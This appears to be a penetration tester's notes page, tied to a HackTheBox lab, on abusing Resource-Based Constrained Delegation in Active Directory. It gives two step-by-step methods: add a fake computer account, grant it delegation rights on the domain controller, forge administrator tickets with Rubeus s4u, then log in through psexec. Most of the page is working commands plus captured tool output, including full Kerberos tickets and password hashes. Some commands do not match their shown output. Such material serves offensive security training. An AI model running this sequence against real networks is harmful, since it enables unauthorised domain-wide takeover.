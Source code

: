 ```yaml
---
description: Taking over a computer object and performing a S4U attack
---
```


# Resource Based Constrained Delegation

Resource Based Constrained Delegation can be exploited by adding a fake computer $FAKE-COMP01 to the domain, configuring it to act on behalf of the DC. This lets us request Kerberos tickets as $FAKE-COMP01 impersonating a domain admin. We then use Pass-the-Ticket to authenticate as admin and take over the domain by performing a S4U attack.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview" %}

### <mark style="color:yellow;">How does it work.</mark>

Resource-Based Constrained Delegation (RBCD) is a mechanism in Active Directory that allows a specific object to impersonate any user instead of a user impersonating a user. RBCD can granting computer objects impersonation rights. This is done by using `msDS-AllowedToActOnBehalfOfOtherIdentity`.  Any user withpermissions (like `GenericAll` or `WriteDacl`) on a computer account can configure it.

### <mark style="color:yellow;">What is needed</mark>

<details>

<summary>Video of this attack</summary>

[https://www.youtube.com/watch?time\_continue=268\&v=RUbADHcBLKg\&embeds\_referring\_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source\_ve\_path=MzY4NDIsMjg2NjY](https://www.youtube.com/watch?time_continue=268\&v=RUbADHcBLKg\&embeds_referring_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source_ve_path=MzY4NDIsMjg2NjY)

</details>

{% stepper %}
{% step %}
#### Code execution&#x20;

Code execution as a domain user belonging to Authenticated Users

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```
{% endstep %}

{% step %}
#### ms-ds-machineaccountquota

The ms-ds-machineaccountquota attribute needs to be higher than 0. This attribute controls the amount of computers that authenticated domain users can add to the domain.

```powershell
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```
{% endstep %}

{% step %}
#### Need GenericAll or WriteDACL

Our current user or a group that our user is a member of, needs to have WRITE privileges ( GenericAll , WriteDACL ) over a domain joined computer
{% endstep %}
{% endstepper %}

## Performing the S4U attack

{% hint style="info" %}
S4U (Service for User) is a Kerberos protocol extension that allows a service to impersonate a user to access other resources. A successful S4U attack involves exploiting vulnerabilities in this mechanism to gain unauthorized access to sensitive resources.
{% endhint %}

### <mark style="color:yellow;">Method1</mark>

Create a new computer account to abuse write privilege on the DC. We then set `msDS-AllowedToActOnBehalfOfOtherIdentity` to our account so we can impersonate as any user from to the DC. For this you need to import [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).&#x20;

```powershell
New-MachineAccount -MachineAccount Zen -Password $(ConvertTo-SecureString 'pass@123' -AsPlainText -Force)
```

We can then set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our account

```powershell
Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount Zen$
```

And retrieve tickets with Rubeus

<pre class="language-powershell"><code class="lang-powershell"><strong>.\Rubeus.exe s4u /user:Zen$ /password:pass@123/domain:support.htb /impersonateuser:administrator /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /msdsspn:host/dc.support.htb /nowrap
</strong></code></pre>

<details>

<summary>Retrieved tickets</summary>

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxfQi/f3np
      EMZE+Bk4cMAc7F/DucdA/LIBYSg4fU7tKg3CuPHLEtVN2di3g0YrCUbB9b8lvTeg1vSU/wjmAbcqP6PK
      geFl4t1fwOZP16vxD6GbJ6xfGizXcN56zL5RN26HWREkQWM2nHmo119CZIeQnGGgnzFF6T4D58M1/7im
      eS2l4leCnzjffmoYSTl8vcQqAn7LANGrNBHxZv4vZEslmSpvXd0swUW96DaCHkAuy04Yxg7ADN4d0I4h
      NRE1/i6U+WGKmfEB5UnPJ57AGkcaMfpT7CJj4fb07ED3FdC9jns0p5dWDqZWVtyWzwPPmZDzaD66HtX7
      mHTq+1TURbs0TUKyKLTE35n2pC3CWQtxgYk7RDZ2WbCuEvJ1FQxYANdVt9z+mshafwwNqgtNy45IZdrb
      RBQBgnWCrjIY0nWVIIU6Tg4xEnhoPm+dVmaG/jLb213VbR2B9xv/QyHYoStpLOezsZRpHPb9gcjSYUha
      KTUbjI3WFsNrJkEx9pXDvlLB8guDfkUj1//AbwQDHft3guaECmnOHdV0vxcIkSqRel/R8BLhuXheioD1
      TC7ESRPRAe3KruckjaWq9hlhBB3aiAcx//gmfS7QCIfQ5OFryZHFdzzzWqCJfPrlqDg5xtYwG0qQ6dSS
      Ou1uJ0F0/b9rY23TIchhwmQFVTaKjeGL6FfbZRcfBgcXFjMtEtzMmYLyAUgdmsgL9Rjh2gosiQvYmxXF
      VUQC2t60oPJsmqUUL1wG6xE6JXf9XG6FmgHVRLMM8E+CxPQ7hTIS0PcPZIlT9f1fvtO9G/8rIJjoUKDB
      GG7wuLRXxxcuRmoWTTiiGDSWgBtOzmOfeK4RSFcZoX9CHKw/+M9bXLKbsLCTXpt8qHZb9u6Kb1jFd4bD
      40ZaF3ep+W9wMSW+MEQw8k9m4u4apBlGQyJDNSBfExXi24K2ro7amzVjMWJZjPLJgZJMKwlOgFzHplC5
      FSo4wbl288W34DZbGW85XZce9dsMSQGYFyYN33nmZxzRvkjxRU7cJ/hacC3EwGNDKbpqRMLhPSs86zgl
      gPk2ZwRZAgcc/q4baeVwJiSIZbh5Ru0p64gpvNZUG71umSlcROh2cJIipBWjilAzeoyTrrXdokx2sG3y
      6FWVnCbBMxICAvCNH1WrqLat4eLV7NGIF07ZLu5mg8bc8xX/q2PTBpyS2QUpx9+rPhDqB9WnOSP/jedo
      DUL0RsywRl6obAqerHdCSWvwt060xSwhYGATpa772oncMtSwOry2eknztoYJ6/N/ANFRZe7M+EW7k96N
      3DLuXJzcnPjLN+xdVKVTjGONa7v5f+7UJW2XqR3J12ue7cI2+cX/O328oWRuImzfaE1WA6yy4ao4zjm7
      8WIn3HjNwu736R2a7iqUrrag+mxFIGIc8lpk5M7Hs01GgbmroY5k+IbuhgZpTUgZSFazAEgqoQxzhk7N
      nnP13tA0Bx+tK0I8TtnMKy7cVSixj57rhaWHD0rgvZgPx6KNGljAJezy6dhxuxmhOJ8eo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQOoRFqAF1kc0B3FkPPCRj26ENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjQxMTEx
      MjE0NDAzWqYRGA8yMDI0MTExMjA3NDQwM1qnERgPMjAyNDExMTgyMTQ0MDNaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGeDCCBnSgAwIBBaEDAgEWooIFijCCBYZhggWCMIIFfqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggVDMIIFP6ADAgESoQMCAQaiggUxBIIFLWiPEFCm
      tJgqHv1SNRYND/VSnxwhD97NcBQbr0Eo2f7m8a9V8TzvEjSZIJ+wADZwU0UW0pBN7aIw5J5XKyZUo5WI
      pPdYEYetYDQRKcWttOCixO4/gQ6fTEMqC4I02fSDvAV/22KEDNKgqZ4pAg4papCoSOzrBH+6+UNx+7ek
      mCYZHsWKQ00fVGDOl5AMbaUR0Cjz7DOl+S/ysN2RNdp67fQIeXi+0/z2fPp/IHsLqRv9ALZFftYgZzRn
      EnlJL6GAN1mgUVAmSrGTHN93+qSHQtdrfyVRmQCn8sx1NU8ie2ueY8DPK9spoJ4r95ksolCZpFjTOY0e
      tG7kE56STp7MDkTSgRYSW9DAmA3UZVmksXvAbL3FUGlB2E+ZWlKwVYj6+LOsgl1OXVype/Ylyaf+eYe2
      0nSHP01IDorXEaafg0Wg4g6vuJe37+nM4DNtBrU1T/4OBGb+zTow+2m9qB8+Tfoy1Z5/sRZFjhPpEETl
      Z7fcbI5pFgIa3NLB3Gno53DCpZWyDTtfP4bb+/uLhpm/PGHO7xmZTky7xRSrhuyn5SDDPZgDEklSbI4a
      nEw0i3sTZzTz3YY4fORPvk+hgm9qRPkjT+2NOOUAJSopa59cFibqQQ61f1kF3iptDEquqo+byXAJ7dr4
      wBY+HIpx5P6VHrjqTYLxYY2b091M3sJTpj0guUKgsNid6kE+O6GQkfgOhR4UoD1gH5JVsJLaGSO25qWp
      vdLhkvlKxe22UOZTW+R/fAEPNfu0CdOlLIPtaTRYCdPQ7aZwWxR2wovUou3fblSuVL/61qPZsNbP+aEI
      jSc8Nq6d1Tf7924G78XzczDy90Fu4Rsj4qROPw8OpT8+ClEJnDmKDi6pcYwTx6T1UKhFmc6S7CzmxwHP
      uvprgRd0y8QGS60MRuthdQ4QrN/DVFlaZQ3Z6m58GChde3WZq9okMqowyCY80+N7gRepgIeHFB/cc5v+
      1T7lb1sPhWSzi+Ie4f1pEnUPyzJNl/cNtdA2+4dOESkHqzCQHPU0GkG2flxMjIXeq+CuynAkyqWEUZBZ
      J842A7EEgcWbxzjVZaOhc4fbMAGj8iS1hz5cviWPJ0+i0/a1YYE5+JMMu1Ju87Yt9vQAYDz0kUg8hDiN
      0UdpuXHg2QKrzDHRiMkN2n/ikme8jPQxd4bX5tCgpeCD4WcCuy9AWEHxq61TFDrpQ6bCGOth7NgY1047
      scc1MKvjqV13nyON85Ta4Hd/2TgGiOwi1l+8/6YBhWcHypdgkWXmldqNfaPIc0vve/PITHYvNsFrpg3U
      OnsCI+9UnQZA1c2lLVLJpZXeM3WEOJnJg4th1yrIpNgZpK7PBfWKHIPPvrhwfk3xZY0DwpodIdsLUR7B
      0kq+nWfOU7ocZLV6Eux+QNXNf6FVPAuK2/O8Y8XwsN4XkSw8D7NnlSI4A/78cR5QEzyxY5MNyRaq9xeb
      00Drds9/pYarD5nDNunmlbm9UXaUmv08RNAIUrF5TeV3r51wRsT+gZ7JBaEgQ3kon3vS1jaGX9SQoEuk
      8SfrVso/Nd6uyTLH2i8QlFRfHOH/xoVMo88lEZSoSP5X0Wkcdo2oBtP3F5MKU3yg5xzD5j1T1hx+UPg6
      YhfA4ksUswsKZ8cel2DMCrXqI33ce2lcPMd0N+FLBcmN7/Q1p5e6I0N+wtlCjpcDIRy+OYoxVyRWNXYF
      lQGAQXNbvHM/7b5i6Ls0c+Lh+tBqLkS58jw/ndabP9VLx4nkjaEiDBb4Xl9271rC8k+MlBLmwjJ8JOmd
      o4HZMIHWoAMCAQCigc4Egct9gcgwgcWggcIwgb8wgbygGzAZoAMCARGhEgQQBcI7h2Lblt4f1V7dRZy4
      b6ENGwtTVVBQT1JULkhUQqIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAy
      NDExMTEyMTQ0MDNaphEYDzIwMjQxMTEyMDc0NDAzWqcRGA8yMDI0MTExODIxNDQwM1qoDRsLU1VQUE9S
      VC5IVEKpITAfoAMCAQKhGDAWGwRjaWZzGw5kYy5zdXBwb3J0Lmh0Yg==
[+] Ticket successfully imported!

```

</details>

Find the administrator ticket and echo it into `base64 -d` and save it as ticket.b64. Then use ticketconverter to a format impacket can use.                                                                                                                                                                                                   &#x20;

```bash
$ python ticketConverter.py ticket.kirbi ticket.ccache                                               
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Finally we can login as administrator. Make sure the dc.domain.yzt is added to hosts.&#x20;

```bash
KRB5CCNAME=ticket.ccache python psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

### <mark style="color:yellow;">Method 2</mark>

First create the fake computer and add it to the domain with [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

```powershell
PS C:\Users\support\Documents> New-MachineAccount -MachineAccount ZenFakeComputer -Password $(ConvertTo-SecureString 'pass@132' -AsPlainText -Force)
[+] Machine account ZenFakeComputer added

# Check it the new machine was added
PS C:\Users\support\Documents> Get-ADComputer -identity ZenFakeComputer
DistinguishedName : CN=ZenFakeComputer,CN=Computers,DC=support,DC=htb
DNSHostName       : ZenFakeComputer.support.htb
Enabled           : True
Name              : ZenFakeComputer
ObjectClass       : computer
ObjectGUID        : 2aa665e0-20e0-420d-ac5c-b59c7b8b3de9
SamAccountName    : ZenFakeComputer$
SID               : S-1-5-21-1677581083-3380853377-188903654-5602
UserPrincipalName :
```

Configure the DC to trust my fake computer by creating an ACL with its SID and assigning it to the DC.

```powershell
# Get the objectSID of the target computer (ZenFakeComputer)
$fakesid = Get-DomainComputer ZenFakeComputer | select -expand objectsid

# Create a new security descriptor that grants full control to the target computer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"

# Convert the security descriptor to a byte array
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set the msds-allowedtoactonbehalfofotheridentity attribute on the target computer
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Check if it worked

```powershell
# Get the raw security descriptor of the domain controller
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity

# Create a new security descriptor object from the raw bytes
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

# Access the discretionary access control list (DACL) of the security descriptor
$Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5602
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

It shows an Access Control List that specifies the machines that can act on behalf of the DC with `SecurityIdentifier` of my fake computer with `AccesAllowed`.

First get the rc4\_hmac value.

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe hash /password:zenpass@123 /user:ZenFakeComp /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : zenpass@123
[*] Input username             : ZenFakeComp
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBZenFakeComp
[*]       rc4_hmac             : DFA8C3D737ACDD5F9AF9F4B60205E8D9
[*]       aes128_cts_hmac_sha1 : DBC10236F5F70D66F4BBF93819D3635B
[*]       aes256_cts_hmac_sha1 : 6AFC3C4155B027E5B43BE2B3B1636114C877C3B077808F25B3689A1925931D40
[*]       des_cbc_md5          : 8F20A2C8B90780C7
```

Next retrieve the tickets with Rubeus

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:ZenFakeComp$ /rc4:DFA8C3D737ACDD5F9AF9F4B60205E8D9 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

